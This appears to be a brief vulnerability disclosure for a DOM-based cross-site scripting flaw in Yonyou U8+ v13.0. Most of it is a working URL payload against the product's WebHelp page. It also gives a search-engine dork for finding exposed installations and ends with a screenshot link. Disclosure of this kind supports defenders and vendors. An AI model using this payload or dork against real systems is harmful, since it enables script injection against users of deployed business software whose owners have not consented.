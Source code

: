 # Yonyou DOM XSS

Supplier: https://www.yonyou.com/

The version is: Yonyou U8+v13.0

Payloads：

/U8SL/WebHelp/PB_Por_zh-CN.htm?wvstest=javascript:domxssExecutionSink(1,%22%27\%22%3E%3Cxsstag%3E()locxss%22)#javascript:alert(1)

Search using bing. 

Inurl:/u8sl/WebHelp

Case 1
![图片](https://user-images.githubusercontent.com/54035968/174230785-0adf10b5-9fc6-4998-b35c-de16c17bc716.png)


